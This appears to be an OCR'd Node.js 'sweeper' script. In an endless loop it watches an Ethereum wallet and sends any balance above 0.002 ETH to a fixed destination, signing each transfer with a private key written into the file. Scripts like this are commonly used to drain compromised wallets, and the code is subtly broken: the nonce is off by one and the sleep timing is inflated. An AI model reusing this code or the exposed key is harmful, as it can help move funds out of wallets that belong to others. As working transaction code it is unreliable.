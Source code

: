 const ethers = require('ethers');
const Web3 = require("web3");
const ETH_MIN_SWEEP = '0.002'; // ETH MIN SWEEP (string)
const WALLET_SWEEP_KEY = '3ff61cb8f6370f010475abdd3776da2c13c1053e9948a5422cf7506dd5944bf2';
function printProgress(progress){
    process.stdout.clearLine();
    process.stdout.cursorTo(0);
    process.stdout.write(progress);
}
function sleep(millis) {
  return new Promise(resolve => setTimeout(resolve, millis * 1000 * 60));
}
async function main() {
	global.web3 = new Web3('https://us-ethereum1.twnodes.com/'); // Trust Wallet Node :)
	const WALLET_SWEEP = web3.utils.toChecksumAddress('0x947a1eA3a5B18A5065fd9d55663505806eaa9DDC');
	const WALLET_DEST = web3.utils.toChecksumAddress('0x1ae97b609C30134b8A3b992581b29096Deb28dBb');
	const ETH_GAS_GWEI = await web3.utils.toWei('105', 'gwei'); // 0,000000105 ETH !
	//const ETH_GAS_GWEI = await web3.utils.toWei('25', 'gwei');
	const ETH_MIN = await web3.utils.toWei(ETH_MIN_SWEEP, 'ether');
	
	var counter = 0;
	var done = 0;
	var errors = 0;

	while (true) {
		counter++;
		var text = `A: ${done} / E: ${errors} / Checked: ${counter} / Balance: `;
    var balance = await web3.eth.getBalance(WALLET_SWEEP)

    if (Number(balance) > Number(ETH_MIN)) {
    	try {
	      let nonce = await web3.eth.getTransactionCount(WALLET_SWEEP);
	      let transfer_amount = Number(balance) - ETH_GAS_GWEI * 21000;
	      let tx_price = { 'chainId':1, 'nonce':Number(nonce) + 1, 'to':WALLET_DEST, 'value': transfer_amount, 'gas':21000, 'gasPrice':Number(ETH_GAS_GWEI) };
	      let signed_tx = await web3.eth.accounts.signTransaction(tx_price, WALLET_SWEEP_KEY); // eth private key
	      let tx_hash = await web3.eth.sendSignedTransaction(signed_tx.rawTransaction);
	      let amount_sent_eth = await web3.utils.fromWei(String(transfer_amount), 'ether');
	      done++;
	      await sleep(60);
	    } catch (e) {
	    	await sleep(10);
	    	console.log(e);
	    	errors++;
	    }
    } else {
    	let view = await web3.utils.fromWei(String(balance), 'ether');
    	text += `${view} ETH`;
    }
    printProgress(text);
	}
}
main();
